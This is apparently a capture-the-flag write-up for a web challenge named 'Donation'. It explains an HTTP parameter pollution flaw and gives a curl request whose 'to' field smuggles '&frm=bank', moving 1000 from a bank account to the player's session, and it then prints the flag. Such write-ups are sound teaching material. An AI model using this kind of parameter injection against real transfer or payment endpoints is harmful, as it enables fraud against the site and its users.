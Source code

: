 [../](../../)

# Donation

## web

> Save the kittens!
>
> [http://138.68.96.149:2293](http://138.68.96.149:2293)
>
> [donation.zip](donation.zip)

## Solution

After inspecting the sources, you can find the possibility to generate money from `bank`. The following request injects the `frm=bank` variable into the `to` variable and allows to transfer `amount=1000` to the session that enables you to buy the flag afterwards.

	$ curl 'http://138.68.96.149:2293/donate' -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsIm5hbWUiOiJhYmNkIn0.Xf6ATg.LRKaW2AE1SERH4DlRHxMlO99ees' --data 'amount=1000&to=abcd%26frm=bank'

flag: `flag{lo0k_at_all_the_p0llut1on}`